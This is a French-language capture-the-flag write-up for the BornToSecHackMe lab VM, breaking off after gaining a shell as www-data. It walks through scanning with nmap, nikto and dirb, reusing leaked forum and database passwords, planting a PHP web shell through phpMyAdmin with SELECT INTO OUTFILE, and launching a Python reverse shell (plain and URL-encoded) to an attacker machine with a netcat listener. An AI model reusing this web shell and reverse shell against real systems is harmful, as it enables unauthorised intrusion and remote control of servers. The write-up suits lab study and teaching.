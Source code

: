 ### PRECISION

TOUTES LES COMMANDES EXECUTEES ULTERIEUREMENT SONT DEPENDANTE DU RESEAU SUR LEQUEL NOUS SOMMES. LES ADRESSES IP PEUVENT CHANGER, AUQUEL CAS IL FAUDRA ADAPTER NOS COMMANDES

### Début

Lorsque nous lancons la VM nous remarquons qu'aucune adresse IP nous est fournie.
Nous allons donc devoir scanner notre reseau pour voir les adresses utilisées.

```
nmap -sn 192.168.1.0/24
Nmap scan report for BornToSecHackMe (192.168.1.50)
nmap 192.168.1.50
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 14:57 CEST
Nmap scan report for BornToSecHackMe (192.168.1.50)
Host is up (0.00096s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 1 IP address (1 host up) scanned in 4.63 seconds
```
Nous voyons donc plusieurs ports ouverts pour cette adresse IP dont notamment les 80 et 443 qui correspondent au protocol http et https ainsi que le port 21 et 22 qui correspondent au ftp et ssh respectivement.

Dans Kali Linux nous avons deux outils utils pour la recherche de vulnerabilites web que nous avons deja utilisés pour Darkly :
Nikto qui est un outil pour scanner les vulnerabilites de serveur web
Dirb quiu va chercher les routes existantes ou cachées.
```
nikto -h https://192.168.1.50

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.50
+ Target Hostname:    192.168.1.50
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=BornToSec
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /CN=BornToSec
+ Start Time:         2021-08-09 09:06:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Hostname '192.168.1.50' does not match certificate's names: BornToSec
+ The Content-Encoding header is set to "deflate" this may mean that the server is vulnerable to the BREACH attack.
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.20
+ Cookie PHPSESSID created without the secure flag
+ Cookie PHPSESSID created without the httponly flag
+ Cookie mlf2_usersettings created without the secure flag
+ Cookie mlf2_usersettings created without the httponly flag
+ Cookie mlf2_last_visit created without the secure flag
+ Cookie mlf2_last_visit created without the httponly flag
+ OSVDB-3092: /forum/: This might be interesting...
+ Cookie SQMSESSID created without the secure flag
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /webmail/src/read_body.php: SquirrelMail found
+ Server may leak inodes via ETags, header found with file /icons/README, inode: 47542, size: 5108, mtime: Tue Aug 28 06:48:10 2007
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8876 requests: 0 error(s) and 24 item(s) reported on remote host
+ End Time:           2021-08-09 09:09:40 (GMT-4) (188 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nous voyons ici plusieurs routes que nous allons explorer pour voir si nous trouvons quelque chose d'interessant. La premiere étant /forum/:

### Forum

![b2r_1](./photos/b2r_1.png)

En fouillant un peu dans la section 'Probleme login ?' nous trouvons quelque chose d'interessant : 
```
curl --insecure https://192.168.1.50/forum/index.php\?id\=6 | grep "invalid user"
Oct  5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br />
```
Grace a ce mot de passe nous pouvons nous connecter sur le forum avec le couple lmezard/!q\]Ej?*5K5cy*AJ

Nous pouvons recuperer alors l'adresse mail associé a cet identifiant : laurie@borntosec.net

### Webmail

Lorsque nous nous connectons, nous voyons la présence d'un mail DB access avec une pair root/Fg-'kKXBj87E:aJ$. 
```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```
Connectons nous alors a la db via phpmyadmin

### phpMyAdmin

Nous arrivons donc a nous connecter a la db en tant que root grace au mdp fourni sur la boite mail de lmezard.

La technique la plus repandue la est de creer une backdoor dans un repertoire existant pour apres en chargeant la page adequat pourvoir executer un shell sur notre terminal

```
dirb https://192.168.1.50/forum

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Aug  9 09:59:40 2021
URL_BASE: https://192.168.1.50/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.50/forum/ ----
+ https://192.168.1.50/forum/backup (CODE:403|SIZE:293)
+ https://192.168.1.50/forum/config (CODE:403|SIZE:293)
==> DIRECTORY: https://192.168.1.50/forum/images/
==> DIRECTORY: https://192.168.1.50/forum/includes/
+ https://192.168.1.50/forum/index (CODE:200|SIZE:4935)
+ https://192.168.1.50/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.1.50/forum/js/
==> DIRECTORY: https://192.168.1.50/forum/lang/
==> DIRECTORY: https://192.168.1.50/forum/modules/
==> DIRECTORY: https://192.168.1.50/forum/templates_c/
==> DIRECTORY: https://192.168.1.50/forum/themes/
==> DIRECTORY: https://192.168.1.50/forum/update/
```
On va essayer de placer notre backdoor dans un de ces repertoires : /forum/templates_c apres avoir cree une nouvelle db que jai nommé b2r
```
select "<?php system($_GET['cmd']); ?>" into outfile "https://192.168.1.50/var/www/forum/templates_c/backdoor.php"
```

![b2r_2](./photos/b2r_2.png)

https://192.168.1.50/forum/templates_c/backdoor.php?cmd=whoami nous donne :
```
www-data
```
Notre backdoor fonctionne correctement.

Ce que nous devons faire maintenant est de trouver un reverse shell que nous pourrons executer pour pouvoir se connecter au serveur. En cherchant sur internet il y a des reverse shell deja tout prets, prenons celui en python :

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Pour pouvoir passer ce reverse shell a notre url il faudra l'encoder :
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.28%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%0A
```
 On va attendre la connexion sur notre machine Kali (machine qui a l'adresse correspondante a celle rentrée dans le reverse shell)
 ```
 nc -l -p 1234
 ```
D'une autre machine ou directement depuis le browser rentrer le reverse shell encode apres le cmd :

```
curl --insecure https://192.168.1.50/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.28%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27%0A
```

Nous obtenons bien un nouveau prompt : 
```
$ whoami
www-data
$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

### WWWW-DATA

La premiere idée qui me vient est d'essayer de faire une injection dynamique de librairie des plus classiques comme pour le level13 de snowcrash.

Cependant apres avoir execute l'injection, nous avons bien les droits root mais impossible d'acceder au dossier /root ??

